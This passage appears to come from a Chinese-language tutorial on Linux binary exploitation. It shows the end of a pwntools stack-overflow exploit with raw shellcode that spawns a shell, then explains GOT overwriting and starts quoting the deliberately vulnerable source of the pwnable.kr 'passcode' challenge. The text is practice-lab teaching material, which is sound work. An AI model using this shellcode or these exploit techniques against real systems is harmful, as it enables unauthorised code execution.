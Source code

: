 ```
shellcode += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
shellcode += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
shellcode += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

io.write(pad + jmpAddr + shellcode)

io.interact()

```

`python pwn1.py`运行即可看到

已拿到shell

![enter image description here](http://drops.javaweb.org/uploads/images/5ef3f9661008e9370fc3f85bc81ade01503585b2.jpg)

**_2.2 GOT覆写_**

2.2.1 使用范围

刚才我们是通过栈溢出漏洞攻击函数的返回地址,但是现在对于栈溢出,已经有很多保护,例如canary(与windows下的GS技术类似).同时现在更常见的是指针覆盖漏洞,在这种情况下我们拥有一次修改任意内存的机会,在这时我们采用的往往就是GOT覆写技术.

2.2.2 原理

GOT是全局偏移表,类似于windows中PE结构的IAT,只不过windows中IAT中的函数地址是写保护的,没办法利用,但是GOT是可写的,我们可以将其中的函数地址覆盖为我们的shellcode地址,在程序后面调用这个函数时就会调用我们的shellcode了

2.2.3 实践

在这儿我用的实验程序来自panable.kr中的passcode,比较简单,源码如下

```
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
```